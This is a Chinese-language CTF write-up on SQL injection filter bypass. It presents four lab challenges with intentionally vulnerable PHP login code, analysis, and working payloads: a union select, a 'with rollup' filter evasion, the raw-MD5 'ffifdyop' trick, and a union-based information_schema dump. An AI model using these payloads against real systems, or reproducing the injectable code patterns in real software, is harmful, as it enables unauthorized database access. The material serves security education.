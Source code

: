 ### SQL注入绕过

#### 例题1
```php
<?php
if($_POST[user] && $_POST[pass]) {
	//省略了mysql连接过程
    $user = $_POST[user];
    $pass = md5($_POST[pass]);

    $sql = "select pw from php where user='$user'";
    #使用union时，查询出来的列名是第一个被查询的表对应的列名
    $query = mysql_query($sql);
    if (!$query) {
        printf("Error: %s\n", mysql_error($conn));
        exit();
    }
    $row = mysql_fetch_array($query, MYSQL_ASSOC);
    
    if (($row[pw]) && (!strcasecmp($pass, $row[pw]))) {
        echo "<p>Logged in! Key:************** </p>";
    }
    else {
        echo("<p>Log in failure!</p>");
    }
}
?>
```
#### 分析
该文件接受user和pass两个参数，通过构造合适的sql语句进行SQL注入成功登录即可获得key。代码中没有过滤任何SQL语句，因此可以有多种方法进行payload的构造。

#### payload
```
user=' union select md5(1)#
pass=1 
```

#### 例题2
>题目地址:http://www.shiyanbar.com/ctf/1940
#### 代码
```php
<?php
error_reporting(0);
function AttackFilter($StrKey,$StrValue,$ArrReq){  
    if (is_array($StrValue)){
        $StrValue=implode($StrValue);
    }
    if (preg_match("/".$ArrReq."/is",$StrValue)==1){   
        print "水可载舟，亦可赛艇！";
        exit();
    }
}
//执行的开始部分
$filter = "and|select|from|where|union|join|sleep|benchmark|,|\(|\)";
foreach($_POST as $key=>$value){ 
    AttackFilter($key,$value,$filter);
}

//连接语句省略
$sql="SELECT * FROM interest WHERE uname = '{$_POST['uname']}'";
$query = mysql_query($sql); 
if (mysql_num_rows($query) == 1) { 
    $key = mysql_fetch_array($query);
    if($key['pwd'] == $_POST['pwd']) {
        print "CTF{XXXXXX}";
    }else{
        print "亦可赛艇！";
    }
}else{
	print "一颗赛艇！";
}
mysql_close($con);
?>
```
#### 分析
该PHP文件接收两个参数，uname和pwd。文件中包含了对一些SQL关键字和操作符的过滤，没有限制limit,with,rollup,offset等关键字。

根据代码中的条件，只有查询结果中只有1行，且输入密码必须和查询的密码对应才可以得到flag。

这里可以借助with rollup操作来实现SQL注入，该关键字可以将行中每一列的结果进行汇总，如果是数字，得到数字的和；如果是非数字字符串，得到0；

#### payload
```html
uname=1' or 1=1 group by pwd with rollup limit 1 offset 2#
pwd=
<!--pwd为空，uname的最终显示起始行是试出来的-->
<!--payload解释:得到所有用户名和密码，将密码汇总，选出null对应的行-->
```

#### 参考文章
with rollup
>https://www.cnblogs.com/phpper/p/9384614.html

limit宇offset
>https://blog.csdn.net/l1212xiao/article/details/80520330

#### 例题3
>http://ctf5.shiyanbar.com/web/houtai/ffifdyop.php,后台登录

#### 代码

```php
$password=$_POST['password'];
$sql = "SELECT * FROM admin WHERE username = 'admin' and password = '".md5($password,true)."'";
$result=mysqli_query($link,$sql);
if(mysqli_num_rows($result)>0){
    echo 'flag is :'.$flag;
}
else{
    echo '密码错误!';
}
```

#### 分析
该文件只接收一个password参数。如果想得到flag，必须保证密码的MD5值和用户输入的MD5值相同。值得注意的是，该处的MD5函数与常规的用法不太一致，其第二个参数为true，表示返回16字节的原始二进制格式的内容，而不是其对应的一个32位的数字字符串。

因此，如果产生的二进制内容在显示为字符串时，如果能出现'or'axx（a为一个非0的数字，x为任意字符）,则可以构造一个恒为真的SQL语句。

比较巧的是，该文件的文件名经过加密后正好可以产生一个比较合适的字符串。
```txt
'or'6�]��!r,��b
```
#### payload

```txt
password=ffifdyop
```

#### 例题4
>tips:非常适合新手的一道题，题目来自于攻防世界web进阶题newscenter

#### 说明
此题无代码，需要盲注。

测试中发现报错不会有回显，但是也没有过滤任何常用的SQL语句，不是难题。

#### 分析
这里准备采用联合查询的方式获得flag，首先构造了1个payload
```txt
' and 0 union select 1#
```
在firefox下直接返回一个空白页，猜测可能的原因是联合查询的列数不匹配导致查询结果出错。

一点点的增加查询的列数，发现列数为3时可以。
```txt
' and 0 union select 1,2,3#
```
![行数测试](./image/column_test_3.png)
接下来查询表名
```txt
' and 0 union select 1,2,table_name from information_schema.tables#
```
![查询表名](./image/column_name.png)
得到了表名称secret_table
接下来查询列名
```txt
' and 0 union select 1,2,column_name from information_schema.columns where table_name='secret_table'#
```
得到了列名fl4g

查询fl4g中的内容即可得到flag
```txt
' and 0 union select 1,2,fl4g from secret_table#
```

#### 拓展
这里拓展一些关于select后面加数字的一些内容。

#### SQL注入常用函数

1.database()

该函数可以显示当前正在使用的数据库库名。

2.mid()

该函数可以从指定的字段中提取出字段的内容。

mid(column_name,start[,length])
```sql
select mid(name,1) from user;
/*start要求最小从1开始*/
/*从password这一列的每一个元素的第一个字符开始截取*/
/*注意得到的是整整一列的内容*/
```
eg:

select * from user;
| name | password |
| ------ | ------ |
| admin | admin |
| root | root |

select mid(name,1,2);

|name|
|---|
|ad|
|ro|

3.ord()

该函数用于获得某个字符串最开始的字符的ASCII值。

4.ascii()

目前未发现与ord的不同。